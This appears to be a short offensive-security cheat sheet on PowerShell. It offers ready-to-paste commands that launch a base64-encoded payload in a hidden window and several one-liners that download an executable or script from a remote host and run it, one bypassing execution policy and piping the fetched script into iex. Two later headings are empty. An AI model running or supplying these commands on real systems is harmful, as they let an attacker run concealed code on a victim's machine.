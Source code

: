 <!-- TITLE: Powershell -->
<!-- SUBTITLE: A quick summary of Powershell -->

# Execute
```text
%COMSPEC% /B /C start powershell.exe -Command $si = New-Object
System.Diagnostics.ProcessStartInfo;$si.FileName = 'powershell.exe';
$si.Arguments = ' -EncodedCommand [BASE64 PAYLOAD] ';
$si.UseShellExecute = $false;
$si.RedirectStandardOutput = $true;$si.WindowStyle = 'Hidden';
$si.CreateNoWindow = $True;
$p = [System.Diagnostics.Process]::Start($si);
```

# Download and Execute
Good reference for many ways:  https://www.greyhathacker.net/?p=500

rmudge_loader.exe - runs executable

```text
powershell (New-Object System.Net.WebClient).DownloadFile('http://<ip>',c:\temp\test.exe'); (New-Object -com Shell.Application).ShellExecute('c:\temp\test.exe');

PowerShell (New-Object System.Net.WebClient).DownloadFile('http://www.greyhathacker.net/tools/messbox.exe','mess.exe');Start-Process 'mess.exe'

powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

```


# Execute in memory

# Invoke DLL functions
